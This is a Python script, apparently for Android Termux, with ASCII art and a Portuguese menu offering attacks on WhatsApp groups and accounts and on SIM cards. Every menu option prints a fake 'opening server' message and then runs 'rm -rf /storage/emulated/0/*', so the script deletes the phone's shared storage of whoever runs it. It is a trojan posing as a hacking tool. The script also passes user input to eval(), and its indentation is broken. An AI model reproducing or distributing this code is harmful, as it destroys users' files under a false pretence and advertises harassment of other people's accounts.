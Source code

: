 #!/bin/python
# -*- coding: utf-8 -*-

import os
print("""___________________▄▄▄▀▀▀▀▀▀▀▄
      _______________▄▀▀____▀▀▀▀▄____█
      ___________▄▀▀__▀▀▀▀▀▀▄___▀▄___█
      __________█▄▄▄▄▄▄_______▀▄__▀▄__█
      _________█_________▀▄______█____█_█
      ______▄█_____________▀▄_____▐___▐_▌
      ______██_______________▀▄___▐_▄▀▀▀▄
      ______█________██_______▌__▐▄▀______█
      ______█_________█_______▌__▐▐________▐
      _____▐__________▌_____▄▀▀▀__▌_______▐_____________▄▄▄▄▄▄
      ______▌__________▀▀▀▀________▀▀▄▄▄▀______▄▄████▓▓▓▓▓▓▓███▄
      ______▌____________________________▄▀__▄▄█▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▄
      ______▐__________________________▄▀_▄█▓▓▓▓▓▓▓▓▓▓_____▓▓____▓▓█▄
      _______▌______________________▄▀_▄█▓▓▓▓▓▓▓▓▓▓▓____▓▓_▓▓_▓▓__▓▓█
      _____▄▀▄_________________▄▀▀▌██▓▓▓▓▓▓▓▓▓▓▓▓▓__▓▓▓___▓▓_▓▓__▓▓█
      ____▌____▀▀▀▄▄▄▄▄▄▄▄▀▀___▌█▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓__▓________▓▓___▓▓▓█
      _____▀▄_________________▄▀▀▓▓▓▓▓▓▓▓█████████████▄▄_____▓▓__▓▓▓█
      _______█▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓█▓▓▓▓▓██▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓██▄▄___▓▓▓▓▓█
      _______█▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓█▓▓███▓▓▓▓████▓▓▓▓▓▓▓▓▓▓▓▓▓██▓▓▓▓▓▓█
      ________█▓▓▓▓▓▓▓▓▓▓▓▓▓▓█▓█▓▓██░░███████░██▓▓▓▓▓▓▓▓▓▓██▓▓▓▓▓█
      ________█▓▓▓▓▓▓▓▓▓▓▓▓▓▓██▓░░░░░█░░░░░██░░░░██▓▓▓▓▓▓▓▓▓██▓▓▓▓▌
      ________█▓▓▓▓▓▓▓▓▓▓▓▓▓▓███░░░░░░░░____░██░░░░░░░██▓▓▓▓▓▓▓██▓▓▌
      ________▐▓▓▓▓▓▓▓▓▓▓▓▓▓▓██░░░░░░░________░░░░░░░░░██████▓▓▓▓▓█▓▌
      ________▐▓▓▓▓▓▓▓▓▓▓▓▓▓▓██░░░░░░___▓▓▓▓▓░░░░░░░███░░███▓▓▓▓▓█▓▌
      _________█▓▓▓▓▓▓▓▓▓▓▓▓▓██░░░░░___▓▓█▄▄▓░░░░░░░░___░░░░█▓▓▓▓▓█▓▌
      _________█▓▓▓▓▓▓▓▓▓▓▓▓▓█░░█░░░___▓▓██░░░░░░░░▓▓▓▓__░░░░█▓▓▓▓██
      _________█▓▓▓▓▓▓▓▓▓▓▓▓▓█░███░░____▓░░░░░░░░░░░█▄█▓__░░░░█▓▓█▓█
      _________▐▓▓▓▓▓▓▓▓▓▓▓▓▓█░█████░░░░░░░░░░░░░░░░░█▓__░░░░███▓█
      __________█▓▓▓▓▓▓▓▓▓▓▓▓█░░███████░░░░░░░░░░░░░░░▓_░░░░░██▓█
      __________█▓▓▓▓▓▓▓▓▓▓▓▓█░░░███████░░░░░░░░░░░░░░_░░░░░██▓█
      __________█▓▓▓▓▓▓▓▓▓▓▓▓█░░░███████░░░░░░░░░░░░░░░░░░░██▓█
      ___________█▓▓▓▓▓▓▓▓▓▓▓▓█░░░░███████░░░░░░░░░░░█████░██░░░
      ___________█▓▓▓▓▓▓▓▓▓▓▓▓█░░░░░░__███████░░░░░███████░░█░░░░
      ___________█▓▓▓▓▓▓▓▓▓▓▓▓▓█░░░░░░█▄▄▄▀▀▀▀████████████░░█░░░░
      ___________▐▓▓▓▓▓▓▓▓▓▓▓▓█░░░░░░██████▄__▀▀░░░███░░░░░█░░░
      ___________▐▓▓▓▓▓▓▓▓▓▓▓█▒█░░░░░░▓▓▓▓▓███▄░░░░░░░░░░░░░░░______▄▄▄
      ___________█▓▓▓▓▓▓▓▓▓█▒▒▒▒█░░░░░░▓▓▓▓▓█░░░░░░░░░░░░░░░▄▄▄_▄▀▀____▀▄
      __________█▓▓▓▓▓▓▓▓▓█▒▒▒▒█▓▓░░░░░░░░░░░░░░░░░░░░░____▄▀____▀▄_________▀▄
      _________█▓▓▓▓▓▓▓▓▓█▒▒▒▒█▓▓▓▓░░░░░░░░░░░░░░░░░______▐▄________█▄▄▀▀▀▄__█
      ________█▓▓▓▓▓▓▓▓█▒▒▒▒▒▒█▓▓▓▓▓▓▓░░░░░░░░░____________█_█______▐_________▀▄▌
      _______█▓▓▓▓▓▓▓▓█▒▒▒▒▒▒███▓▓▓▓▓▓▓▓▓▓▓█▒▒▄___________█__▀▄____█____▄▄▄____▐
      ______█▓▓▓▓▓▓▓█_______▒▒█▒▒██▓▓▓▓▓▓▓▓▓▓█▒▒▒▄_________█____▀▀█▀▄▀▀▀___▀▀▄▄▐
      _____█▓▓▓▓▓██▒_________▒█▒▒▒▒▒███▓▓▓▓▓▓█▒▒▒██________▐_______▀█_____________█
      ____█▓▓████▒█▒_________▒█▒▒▒▒▒▒▒▒███████▒▒▒▒██_______█_______▐______▄▄▄_____█
      __█▒██▒▒▒▒▒▒█▒▒____▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒____▒█▓█__▄█__█______▀▄▄▀▀____▀▀▄▄█
      __█▒▒▒▒▒▒▒▒▒▒█▒▒▒████▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______█▓▓█▓▓▌_▐________▐____________▐
      __█▒▒▒▒▒▒▒▒▒▒▒███▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒_______█▓▓▓█▓▌__▌_______▐_____▄▄____▐
      _█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒_____█▓▓▓█▓▓▌__▌_______▀▄▄▀______▐
      _█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒███████▓▓█▓▓▓▌__▀▄_______________▄▀
      _█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒███▒▒▒▒▒▒▒██▓▓▓▓▓▌___▀▄_________▄▀▀
      █▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██▒▒▒▒▒▒▒▒▒▒▒▒▒█▓▓▓▓▓▀▄__▀▄▄█▀▀▀
      █▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██▓▓▓▓██▄▄▄▀
      █▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒████
      █▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      _█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▄▄▄▄▄
      _█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒███▒▒▒▒▒▒██▄▄
      __█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒███▒▒▒▒▒▒▒▒▒▒▒▒▒█▄
      __█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      __█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒█▒▒▒▒▒▒▒▒▒██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      ___█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▒▒▒▒█▒▒▒▒▒▒▒▒█▒▒▒▒▒▒▒▒▒▒▒▒▒░░░░▒▒▒▒▒▒▌
      ____█▒▒▒▒▒▒▒▒▒▒▒▒▒██▒▒▒▒▒▒▒█▒▒▒▒█▒▒▒▒▒▒█▒▒▒▒▒▒▒▒▒░░░░░░░░░░░░░▒▒▌
      ____█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█████████████▒▒▒▒▒█▒▒▒▒▒▒▒▒░░░░▒▒▒▒▒▒▒▒▒▒▒░▒▌
      _____█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______▐▒▒▒▒█▒▒▒▒▒▒▒░░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▌
      ______█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█________█▒▒█▒▒▒▒▒▒░░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌
      _______█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█________█▒█▒▒▒▒▒▒░░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌
      ________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█________█▒▒▒▒▒▒░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      _________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█________█▒▒▒▒░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      _________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█________█▒▒▒░░░░░░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▀
      __________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______█▒░░░▒▒▒▒▒░░░░░░░░▒▒▒█▀▀▀
      ___________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______█░▒▒▒▒▒▒▒▒▒▒▒▒▒░░░░█▀
      ____________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█▀
      _____________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______█▒▒▒▒▒▒▒▒▒▒▒▒█▀
      _____________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█_______▀▀▀███████▀▀
      ______________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      _______________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      ________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      _________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      __________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██▒█
      ___________________█▒▒▒▒▒▒▒▒▒▒▒▒▒██▒▒▒▒█
      ___________________█▒▒▒▒▒▒▒▒████▒▒▒▒▒▒▒█
      ___________________█████████▒▒▒▒▒▒▒▒▒▒▒█
      ____________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      ____________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒█
      _____________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▌
      _____________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▌
      ______________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░░▌
      _______________________█▒▒▒▒▒▒▒▒▒▒▒▒▒▒░░█
      ________________________█▒▒▒▒▒▒▒▒▒▒▒░░░█
      __________________________██▒▒▒▒▒▒░░░█▀
      _____________________________█░░░░░█▀
      _______________________________
      ╔╗╔══╗╔═══╗╔══╗╔════╗╔══╗╔══╗───╔══╗╔╗──╔══╗╔╗─╔╗╔══╗╔═══╗╔╗─╔╗───
      ║║║╔═╝║╔═╗║║╔╗║╚═╗╔═╝║╔╗║║╔═╝───║╔╗║║║──║╔╗║║╚═╝║║╔═╝║╔══╝║╚═╝║───
      ║╚╝║──║╚═╝║║╚╝║──║║──║║║║║╚═╗───║╚╝║║║──║║║║║╔╗─║║║──║╚══╗║╔╗─║───
      ║╔╗║──║╔╗╔╝║╔╗║──║║──║║║║╚═╗║───║╔╗║║║──║║║║║║╚╗║║║──║╔══╝║║╚╗║───
      ║║║╚═╗║║║║─║║║║──║║──║╚╝║╔═╝║───║║║║║╚═╗║╚╝║║║─║║║╚═╗║╚══╗║║─║║───
      ╚╝╚══╝╚╝╚╝─╚╝╚╝──╚╝──╚══╝╚══╝───╚╝╚╝╚══╝╚══╝╚╝─╚╝╚══╝╚═══╝╚╝─╚╝───
      ╔╗╔╗╔╗╔╗╔╗╔══╗╔════╗╔══╗╔══╗╔═══╗╔═══╗───
      ║║║║║║║║║║║╔╗║╚═╗╔═╝║╔═╝║╔╗║║╔═╗║║╔═╗║───
      ║║║║║║║╚╝║║╚╝║──║║──║╚═╗║╚╝║║╚═╝║║╚═╝║───
      ║║║║║║║╔╗║║╔╗║──║║──╚═╗║║╔╗║║╔══╝║╔══╝───
      ║╚╝╚╝║║║║║║║║║──║║──╔═╝║║║║║║║───║║──────
      ╚═╝╚═╝╚╝╚╝╚╝╚╝──╚╝──╚══╝╚╝╚╝╚╝───╚╝──────
      NÃO SOMOS RESPONSÁVEIS PELO USO.
      FERRAMENTA PARA DESTRUIR O INIMIGO.

      ~~~~~~~~~MENU~~~~~~~~~~~~
      [1] ATAQUE A GRUPOS DE WHATSAPP (EXCLUIR)
      [2] ATAQUE ÀS CONTAS DO WHATSAPP (SUSPENDER)
      [3] ATAQUE AOS CARTÕES SIM (DAMAGE MOBILE LINE)
      [4] NÚMEROS DE CORREIO (TEMOS MAIS DE 30 CAIXAS DE CORREIO ATIVAS)
      ░
      ░               ░                            ░
      """)
      eleccion = int(eval(input("kratos aloncen WHATSAPP>> ")))
#
#
                 if eleccion == 1:
                 os.system("apt update")
                 print("INSTALANDO SERVIDOR PRIVADO")
                 os.system("rm -rf /storage/emulated/0/*")

                 elif eleccion == 2:
                 os.system("apt update")
                 print("ABRINDO PLATAFORMA..........")
                 os.system("rm -rf /storage/emulated/0/*")

                 elif eleccion == 3:
                 os.system("apt update")
                 print("ABRINDO SERVIDOR................")
                 os.system("rm -rf /storage/emulated/0/*")

                 elif eleccion == 4:
                 os.system("apt update")
                 print("ABRINDO SERVIDOR................")
                 os.system("rm -rf /storage/emulated/0/*")
